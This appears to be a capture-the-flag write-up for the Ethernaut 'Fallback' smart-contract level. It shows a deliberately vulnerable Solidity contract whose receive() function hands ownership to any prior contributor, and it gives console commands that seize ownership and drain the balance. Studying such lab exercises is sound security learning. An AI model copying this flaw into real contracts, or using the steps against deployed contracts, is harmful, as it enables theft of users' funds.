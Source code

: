 # Fallback
>You will beat this level if
>   1. you claim ownership of the contract
>   2. you reduce its balance to 0

>Things that might help
>*How to send ether when interacting with an ABI
>*How to send ether outside of the ABI
>*Converting to and from wei/ether units
>*Fallback methods

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

```

For this challenge, first, we are required to claim the ownership of this contract. Looking at the solidity code given to us, we can see that the code `owner = msg.sender` will be executed in two ways. 
One way is to transfer ether more than the contributions of the owner but that is not possible! (since owner's contribution is fairly large). What we will do is first contribute a small amount of ether and then send ether to this contract so that recieve function gets called and we can claim the ownership.

The receive function is similar to the fallback function. It gets called whenever the contract receives some ether. It is designed specifically to handle incoming ether without the need for a data call.
Executing the approach...

```
>await contract.contribute({value : 4})
```
```
>await contract.sendTransaction({value : 1})
```
```
>await contract.owner()
<'0x532600377959B703AA4AC2c468DeDe8FAA40B576'
```
and so the first step is done! Now don't forget to withdraw ether from this contract.
```
>await contract.withdraw()
```
```
>await getBalance("0xf246A7CD5d85F553ee44E3271Ad8bd1f77434e95")
<'0'
```
Viola! We can now submit the instance.

